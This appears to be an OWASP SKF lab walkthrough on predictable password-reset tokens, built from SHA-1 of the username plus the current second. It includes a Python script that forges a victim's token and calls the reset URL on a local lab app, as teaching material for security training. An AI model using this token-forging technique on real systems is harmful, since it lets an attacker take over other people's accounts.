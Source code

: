 # KBID xxx - Insecure Random

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:threatmodeling
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:theatmodeling
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to understand how the password reset functionality works. 
We identify that there is a /forget endpoint that serves the password reset page.

![](../../.gitbook/assets/tm-1.png)

```text
http://localhost:5000/forget
```

### Step2

Submit a username to the password reset form to generate a reset token.

![](../../.gitbook/assets/tm-2.png)

```text
http://localhost:5000/passwordForget
```

### Step3

Observe that the reset token is generated using the current timestamp and the username. The token generation logic is as follows:

```python
current_time = datetime.datetime.now()
timestamp = current_time.second
to_hash = values[0][1] + str(timestamp)
resetToken = hashlib.sha1(to_hash.encode('utf-8')).hexdigest()
```

### Step4

We can exploit this logic by generating the token ourselves. First, get the current time and username. Then, use the same logic to create a token.

```Python
import hashlib
import datetime

username = 'testuser'
current_time = datetime.datetime.now()
timestamp = current_time.second
to_hash = username + str(timestamp)
resetToken = hashlib.sha1(to_hash.encode('utf-8')).hexdigest()
print(resetToken)
```

### Step5 

Use the generated token to reset the password by navigating to the following URL:

```text
http://localhost:5000/reset/<username>/<resetToken>
```

## Exploitation

Now that we understand the vulnerability, we can use it to reset any user's password by generating a valid token and navigating to the reset link.

### Step1

Create a script to automate token generation and password reset.


```python
import requests
import hashlib
import datetime

username = 'victimuser'
current_time = datetime.datetime.now()
timestamp = current_time.second
to_hash = username + str(timestamp)
resetToken = hashlib.sha1(to_hash.encode('utf-8')).hexdigest()

reset_url = f'http://localhost:5000/reset/{username}/{resetToken}'
response = requests.get(reset_url)

if response.status_code == 200:
    print('Token is valid, proceeding to reset password...')
else:
    print('Token is invalid, try again.')
```

#### Step 2

Use the generated link to reset the password and Voila We made it! 

## Additional sources

Please refer to the OWASP testing guide for a complete description of password reset vulnerabilities and edge cases over different platforms!

[https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/09-Testing_for_Weak_Password_Change_or_Reset_Functionalities](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/09-Testing_for_Weak_Password_Change_or_Reset_Functionalities)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)

